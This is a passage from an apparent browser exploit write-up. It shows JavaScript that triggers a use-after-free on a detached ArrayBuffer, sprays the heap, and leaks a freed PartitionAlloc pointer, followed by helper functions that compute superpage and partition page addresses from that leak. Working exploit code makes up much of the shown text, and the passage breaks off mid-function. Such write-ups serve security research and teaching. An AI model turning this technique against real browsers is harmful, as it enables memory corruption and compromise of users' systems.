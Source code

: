 ```js


detachBuffer(uaf.buffer);


for(var i = 0; i < 100; i++){
    gc();
}

for(var i = 0; i < 800000;i++){ // don't know why i need this, but it works so i don't care
    no_gc.push(new Float64Array(0x40).fill(1.1))
}



leaks.set(uaf,0); // !!! read from freed uaf.buffer
console.log(leaks);
var page_leak = leaks[0].f2i();
if(page_leak == 0 || page_leak == 0x4141424243434444n){
    throw 1;
}
```

Now comes the fun part.

When page in `PartitionAlloc` is freed it will populate the freed memory with a pointer to the next free page (if it exists). The written pointer is stored in big endian format as a security measure against partial overwrites and other bugs, although this is not a problem in our case as we have read/write into the freed memory.

`PartitionAlloc` also isolates objects by type, so reclaiming memory of the freed `ArrayBuffer` with objects that contain pointers to other areas of memory is nearly impossible on 64 bit platforms.

At this point I got stuck for a long time as I didn't know what to do with the leaked pointer and my experiments with reclaiming memory with other object types weren't successful...

#### PartitionAlloc Exploitation

The major breakthrough was when I found a blog about [WizardOpium](https://securelist.com/the-zero-day-exploits-of-operation-wizardopium/97086/) operation, which involved similar type of bug.

After reading the blog I figured out that the leaked pointer turned out to be a goldmine as from it it is possible to extract a lot of useful information such as superpage address, metadata address, partition index and etc. For the technique described below, we are particularly interested in metadata address.

Below is the summary of what can be extracted from the pointer.

```js
function getSuperPageBase(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr & superPageBaseMask;
    return superPageBase;
}
 
function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex << BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
}
 
function getPartitionPageIndex(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    return partitionPageIndex;
```